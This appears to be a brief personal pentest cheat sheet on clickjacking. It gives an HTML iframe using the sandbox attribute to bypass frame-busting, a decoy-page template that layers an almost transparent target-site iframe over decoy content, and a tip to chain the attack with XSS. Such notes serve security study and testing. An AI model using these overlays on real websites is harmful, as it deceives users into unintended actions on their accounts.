 # ClickJacking




###### notes:
- frame busting techniques can be bypassed using iframe sandbox attribute
```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
- simple deocy page 
```html
<head> <style> #target_website { position:relative; width:128px; height:128px; opacity:0.00001; z-index:2; } #decoy_website { position:absolute; width:300px; height:400px; z-index:1; } </style> </head> ... <body> <div id="decoy_website"> ...decoy web content here... </div> <iframe id="target_website" src="https://vulnerable-website.com"> </iframe> </body>
```
- check if there is harmless xss like in POST form and make use of it